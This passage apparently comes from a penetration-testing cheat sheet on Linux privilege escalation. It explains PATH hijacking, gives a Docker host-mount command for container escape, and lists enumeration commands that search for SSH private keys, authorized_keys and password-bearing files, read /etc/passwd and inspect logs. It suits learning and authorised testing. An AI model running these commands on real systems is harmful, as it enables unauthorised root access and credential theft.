 	- Path Hijacking occurs when a program uses the relative path to another program instead of the absolute path. Consider the following Python code:
		```python
		import os
		os.system('create_backup')
		```
		The `$PATH` variable is a Linux environment variable that specifies where to look for a specific binary when a full path is not provided.
		An attacker can exploit this mechanism by either being allowed to modify the `$PATH` variable or being able to write files inside directories specified there.
		So, in order to exploit the above Python code, the attacker places a program called `create_backup` inside a location from the `$PATH` variable and Linux will execute the malicious program instead of the intended one.
4. **Docker Privilege Escalation / Container Escape**
	- This requires the user to be privileged enough to run docker, i.e. being in the `docker` group or being `root`.
		```bash
		> docker run -v /:/mnt --rm -it alpine chroot /mnt sh
		```
		The command above creates a new container based on the `Linux Alpine` image, mounts the `/` directory from the host on `/mnt` inside the container and runs it with `/bin/sh`. Now the attacker can read any file on the system.
	- Escaping Docker privileged containers. Docker privileged containers are those run with the `--privileged` flag. Unlike regular containers, these have root privilege to the host machine.
	A detailed article can be read [here](https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1)
5. **Others**
	- `id` / `whoami` - identify if the user is part of special groups, such as `docker`, `admin`, etc.
	- `cat /etc/passwd` - list system users for potential privilege escalation
	- `crontab -l` / `ls -al /etc/cron* /etc/at*` - enumerate cron jobs (scheduled jobs) on the system.
	- `ps aux` / `ps -ef` - inspect running processes
	- `find / -name authorized_keys 2> /dev/null` - find SSH authorized keys
	- `find / -name id_rsa 2> /dev/null` - find SSH private keys
	- `find / -type f -iname ".*" -ls 2>/dev/null` - find hidden files
	- `grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null` - find files containing passwords.
	- Manually looking through web server logs, such as access or error logs for any sensitive information. Default locations for these logs:
		- `/var/log/apache2/error.log`
		- `/var/log/apache/access.log`
		- `/var/log/apache2/access.log`
		- `/etc/httpd/logs/access_log`

## Tools

There are many tools that automated the process of enumeration and could help you save a lot of time when looking for privilege escalation vectors.

A good enumeration tool is [PEASS-ng](https://github.com/carlospolop/PEASS-ng) which comes with a [Linux version](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and a [Windows version](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS).

